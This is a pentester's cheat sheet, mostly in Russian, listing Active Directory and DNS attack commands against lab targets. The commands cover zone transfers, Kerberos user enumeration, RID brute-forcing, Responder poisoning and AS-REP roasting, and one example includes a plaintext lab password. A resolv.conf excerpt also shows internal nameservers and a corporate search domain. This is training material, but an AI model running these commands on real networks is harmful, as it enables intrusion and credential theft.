		dnsrecon -d bank.htb -a -n 192.168.2.37 -(dns server)	(Метод «прямого запроса»: Запрашивает у конкретного DNS-сервера полную копию его зоны для домена.)
		1) Смотрим в DNS  в ptr записи: dnsrecon -r 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16 (но поочереди)

		sudo arp-scan --localnet 		(arp сканирование сети)

		 nslookup
		> server 10.10.10.248
		Default server: 10.10.10.248
		Address: 10.10.10.248#53
		> svc_int.intelligence.htb
		Server:         10.10.10.248
		Address:        10.10.10.248#53

		dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 			10.10.10.248 -a add -r web1 -d 10.10.14.58 -t A (создание ДНС записи в домене)

  
* DNS resolver
  
		Файл /etc/resolv.conf — это конфигурационный файл DNS-резолвера
  			nameserver 10.28.16.3
			nameserver 10.28.16.1
			search dgp.gazprom.ru
  
  			nameserver 10.28.16.3 и nameserver 10.28.16.1 (Это IP-адреса DNS-серверов, которые ваша система использует для разрешения доменных имен.
			Система будет обращаться к ним в порядке очередности: сначала к 10.28.16.3, если он недоступен — к 10.28.16.1.)
 		 	search dgp.gazprom.ru -резлв коротких имен
		
* user found
		- with Kerbrute

		https://github.com/insidetrust/statistically-likely-usernames (списки юзеров)
		sudo git clone https://github.com/ropnop/kerbrute.git (репозиторий кербрут)

  		kerbrute userenum --dc 172.16.5.5 -d INLANEFREIGHT.LOCAL /opt/jsmith.txt (пример комманды)

 		- with crackmapexec
  
		crackmapexec smb 10.10.10.10 -p "anonymous" -p '' --rid-brute
		
		- with RPCCLIENT

		rpcclient -U '' -N  10.10.10.169
    
* MultiCast enum

		sudo responder -I ens224
  		(ответ собирается в /usr/share/responder/logs)

* kerbrute
    		
		~/kerbrute_linux_amd64 userenum users.txt --dc 192.168.50.110 -d vd.local
* not_preauth

  		impacket-GetNPUsers -dc-ip 192.168.50.110 vd.local/ -usersfile users.txt | grep '$krb'
		.\Rubeus.exe asreproast /user:carole.rose /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap
  		-----Kerberoasting without credentials
